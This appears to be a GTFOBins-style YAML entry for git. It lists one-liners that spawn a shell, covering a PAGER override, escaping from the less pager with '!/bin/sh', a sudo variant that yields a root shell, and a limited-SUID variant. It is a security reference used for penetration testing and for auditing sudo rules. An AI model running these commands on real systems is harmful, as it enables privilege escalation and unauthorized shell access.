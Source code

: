 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git --paginate help config
        !/bin/sh
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```


